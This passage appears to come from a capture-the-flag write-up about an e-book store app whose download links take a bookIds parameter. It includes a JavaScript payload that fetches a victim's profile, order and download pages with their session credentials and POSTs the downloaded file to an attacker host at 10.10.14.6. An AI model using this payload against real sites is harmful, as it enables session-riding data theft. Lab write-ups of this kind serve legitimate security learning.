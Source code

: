 The CSS doesn't load, but that's ok. The interesting part is the
"Download e-book" link, which points to `/download/7?bookIds=9`. Some
orders have more than one book, and look like this:

![](/img/image-20240116151408821.png)

The important difference here is the "Download everything link", which
leads to `/download/2?bookIds=18&bookIds=11`. It seems that the
`bookIds` parameter can be a single string or (when multiple are
specified) an array (I go over why this works in [Beyond
Root](#query-strings-in-express).

#### Download Single

I'll try to download a file by updating my script to find the link again
to get a single download link and return what it returns. I've updated
the response to be `resp3.blob()` rather than `.text()` because I expect
an e-book to be a binary format:



    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      var match = resptext.match(/\/order\/\d+/);
      fetch(match, {credentials: "include"})
      .then((resp2) => resp2.text())
      .then((resptext2) => {
        var match2 = resptext2.match(/\/download\/\d+\?bookIds=\d+/);
        fetch(match2, {credentials: "include"})
        .then((resp3) => resp3.blob())
        .then((data) => {
          fetch("http://10.10.14.6/exfil", {
            method: "POST",
            mode: "no-cors",
            body: data
          });
        });
      });
    });
